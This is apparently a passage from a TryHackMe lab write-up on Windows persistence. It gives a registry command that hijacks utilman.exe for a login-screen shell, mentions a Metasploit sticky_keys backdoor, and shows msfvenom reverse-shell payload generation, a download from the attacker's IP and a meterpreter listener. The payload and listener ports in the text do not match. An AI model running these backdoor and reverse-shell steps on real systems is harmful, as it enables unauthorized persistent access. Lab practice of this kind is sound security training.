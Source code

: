 Checking Task Scheduler you can see there is a task created and will run every time a users logs in.

![](https://i.imgur.com/299wh4y.png)

**Backdooring RDP**

An example would be using Metasploit to backdoor OSK (On-screen keyboard).

Metasploit sticky_keys module can be used:

![](https://i.imgur.com/0klqDqF.png)

Sign out/Lock the account and press Windows Key + U and choose On-screen keyboard. A CMD should be prompted.

![](https://i.imgur.com/3I7jaCp.png)

The same results can be achieved by editing the registry using the command:

`REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f`

```
kali@kali:~/CTFs/tryhackme/Persistence$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.106.222 LPORT=9002 -f exe > backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

`Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\tryhackme\Downloads\backdoor.exe"`

```ps1

PS C:\Users\tryhackme> cd .\Downloads\
PS C:\Users\tryhackme\Downloads> Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\tryhackme\Downloads\backdoor.exe"
PS C:\Users\tryhackme\Downloads> ls


    Directory: C:\Users\tryhackme\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/30/2020   1:32 PM          73802 backdoor.exe
```

```
kali@kali:~/CTFs/tryhackme/Persistence$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:9001
```

